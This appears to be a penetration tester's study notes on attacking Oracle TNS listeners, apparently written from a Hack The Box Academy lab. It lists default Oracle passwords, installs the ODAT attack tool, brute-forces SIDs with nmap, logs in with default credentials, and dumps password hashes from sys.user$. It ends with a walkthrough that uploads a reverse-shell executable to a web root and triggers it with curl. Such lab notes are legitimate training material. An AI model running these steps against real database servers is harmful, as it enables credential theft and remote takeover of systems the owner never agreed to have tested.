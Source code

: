 Oracle TNS
###########

Date: 2024-11-11 12:10

Status:

 `Oracle Transparent Network Substrate (TNS)`

Ports
*******

`1521/tcp` is the listener by default

Configuration
**************

-  Files are stored in the $ORACLE_HOME/network/admin directory
-  Client side configuration file is called ``tnsnames.ora``
-  Server side config file is called ``listener.ora``
-  Oracle 9’s default password is CHANGE_ON_INSTALL
-  Oracle 10 has no default password set
-  Oracle DBSNMP users a default password of dbsnmp
-  Each database has a unique entry in ``tnsnames.ora``

Installing tools
*****************

.. code-block:: console

   #!/bin/bash

   sudo apt-get install libaio1 python3-dev alien -y
   git clone https://github.com/quentinhardy/odat.git
   cd odat/
   git submodule init
   git submodule update
   wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
   unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
   wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
   unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
   export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
   export PATH=$LD_LIBRARY_PATH:$PATH
   pip3 install cx_Oracle
   sudo apt-get install python3-scapy -y
   sudo pip3 install colorlog termcolor passlib python-libnmap
   sudo apt-get install build-essential libgmp-dev -y
   pip3 install python-libnmap
   pip3 install pycryptodome

Test your tool by running:

.. code-block:: console

   ./odat.py -h

**note** This did not fucking work in Ubuntu 24 - failed modules galore

Footprinting
*************

Example 1: Using nmap to get service information

.. code-block:: console

   sudo nmap -p1521 -sV 10.129.204.235 --open

Example 2: Nmap SID Brute forcing

.. code-block:: console

    sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute

Example 3: Using ODAT and all the attacks

.. code-block:: console

   ./odat.py all -s 10.129.204.235

Using the client
*****************

Example 1: SQLplus and getting table information

.. code-block:: console


   sqlplus scott/tiger@10.129.204.235/XE

   SQL> select table_name from all_tables;

Example 2: Connecting as a sysdba and getting user privileges and then
password hashes

.. code-block:: console


   sqlplus scott/tiger@10.129.204.235/XE as sysdba

   select * from user_role_privs;

   SQL> select name, password from sys.user$;

Example attack
*****************

-  The web root path is known
-  You create a reverse shell
-  Upload the shell with odat.py
-  create a listener
-  visit the shell on the web

.. code-block:: console


   ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot shell.exe ./shell.exe

.. code-block:: console

   curl -X GET http://10.129.204.235/shell.exe

References
************
https://academy.hackthebox.com/module/112/section/2117

